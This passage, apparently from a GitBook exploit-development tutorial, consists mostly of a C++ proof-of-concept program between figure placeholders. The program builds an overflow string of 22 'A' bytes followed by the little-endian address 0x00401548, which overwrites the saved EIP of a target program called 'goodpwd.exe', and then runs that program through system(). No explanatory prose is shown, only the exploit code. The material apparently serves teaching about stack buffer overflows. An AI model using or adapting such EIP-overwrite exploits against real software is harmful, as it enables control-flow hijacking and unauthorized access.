 <figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption><p>22</p></figcaption></figure>

{% code overflow="wrap" lineNumbers="true" %}
```cpp
#include <iostream>
#include <cstring>

int main(int argc, char *argv[])
{
  char command[256];
  char parameter[128];
  
 memset(parameter,0x41,22); // fill the parameter with 'A' character
  
  // now modify the location which overwrites the EIP
  
  parameter[22]= 0x48;
  parameter[23]= 0x15;
  parameter[24]= 0x40;
  parameter[25]= 0x00;

  parameter[26] = 0 ;  /* null terminate the parameter so as previous frames are not overwritten */
  
  strcpy(command , "goodpwd.exe ");
  strcat(command, parameter);
  
  printf("%s\n",command);
  
  system(command);	/* execute the command */
  return 0;
}
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>23</p></figcaption></figure>
